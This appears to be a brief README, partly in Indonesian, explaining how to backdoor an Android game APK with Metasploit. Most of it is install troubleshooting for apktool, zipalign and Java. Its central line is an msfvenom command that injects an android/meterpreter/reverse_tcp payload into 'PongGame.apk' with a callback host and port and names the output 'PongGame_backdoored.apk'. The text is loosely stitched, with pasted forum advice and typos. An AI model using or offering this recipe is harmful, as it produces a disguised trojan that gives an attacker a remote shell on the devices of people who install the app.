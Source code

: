 # Metasploit-remote-desktop
MSF: Embed MSF exploit dengan msfvenom
```html
install 
apt-get install zipalign apktool
```

apt-get install google-android-build-tools-installer zipalign

pilih situs https://dl.google.com/ untuk download

jika install google-android-build-tools-installer gagal, coba

You can get a list of actual held packages with:
dpkg --get-selections | grep hold

Another method of troubleshooting may be to use aptitude rather than apt-get to try to install your package:

sudo aptitude install google-android-build-tools-installer


msfvenom -x PongGame.apk -p android/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4895 -o PongGame_backdoored.apk

if need install jasigner
apt install openjdk-11-jdk

update-alternative --config java

pilih 1 

